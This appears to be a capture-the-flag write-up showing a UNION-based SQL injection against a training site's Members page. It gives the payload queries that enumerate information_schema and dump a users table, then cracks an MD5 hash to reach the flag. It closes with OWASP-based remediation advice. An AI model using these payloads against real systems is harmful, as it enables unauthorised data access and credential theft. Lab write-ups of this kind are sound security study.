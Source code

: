# SQL Injection (MEMBERS)

There is a `Members` top left of the main page of the site, will navigate to Members(http://{IP_ADDR}/index.php?page=member) webpage, which asks to input some sort of member ID number. Once you put any number and submit, it will bring a result with corresponding ID number with `ID`, `First name`, `Surname`

```
[...]
ID: 1
First name: one
Surname : me
[...]
## there is no result on 4
[...]
ID: 5
First name: Flag
Surname : GetThe
[...]
```

Let's see if we can attack this page with SQL Injection technique, by putting a `'`, a quote character. (if the error message like below prints, it means the environment is vulnerable for SQL Injection)

```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '\'' at line 1
```

with this error message we are getting, we could try using the attack queries to see if we can get the informations, with understanding of following information:

- [Understanding MariaDB Architecture](https://mariadb.com/kb/en/understanding-mariadb-architecture/#:~:text=MariaDB%20does%20not%20support%20the,table%20they%20have%20permissions%20for.)
- [SQL UNION Operator](https://www.w3schools.com/sql/sql_union.asp)

So by it means, in `information_schema`, all the information of the databases can be found, and by quering to it directly, it will be possible to get information of databases, with using `UNION` operator, there is a chance a query can retrieve data from `information_schema`. There are [lists of tables](https://dev.mysql.com/doc/refman/8.0/en/general-information-schema-tables.html), and we are going to use couple of them


Following query will bring the information of all the tables created on the database
```
1 AND 1=1 UNION SELECT 1, table_name FROM information_schema.tables
```
and with the list of [General Table](https://dev.mysql.com/doc/refman/8.0/en/information-schema-general-table-reference.html), we can find the table `users` is listed on the result.

From running this query, we can grab all the column names from each table, as well.

```
1 AND 1=1 UNION SELECT table_name, column_name FROM information_schema.columns
```
by searching the `users`, following columns are exist on the table `users`

```
user_id, first_name, last_name, town, country, planet, Commentaire, countersign
```

By tring all the columns, with using columns `Commentaire`, and `Countersign`, the following message can be reterived, with this query

```
1 AND 1=1 UNION SELECT Commentaire, countersign FROM users
```

<img width="1077" alt="image" src="https://user-images.githubusercontent.com/46742040/202273426-4ce4365e-d857-44a7-8b5b-2ac5e03e32d4.png">

as it shows, let's decrypt the password
```
ID: 1 AND 1=1 UNION SELECT Commentaire, countersign FROM users
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```

```
5ff9d0165b4f92b14994e5c685cdce28 -(MD5 decrypt)-> FortyTwo -(all lower case)-> fortytwo -(sh256 encrypt)->

10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```


# Remedattion
A SQL Injection is an attack of injectin query through the input data from the client to the application. It can cause modify, removal, or admin operation to the databases. This can happen when unintended data enters a program from an untrusted source, or the data is used to dynamically construct a SQL query.

In order to prevent,

- Use of Prepare Statements (with Parameterized Queries)
- Use of properly construed stored Procedures
- Allow-list input valiation
- Escaping All User Supplied Input

See More:

- [SQL Injection | OWASP Foundation](https://owasp.org/www-community/attacks/SQL_Injection)
- [SQL Injection Prevention - OWASP Cheat Sheet Series](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)

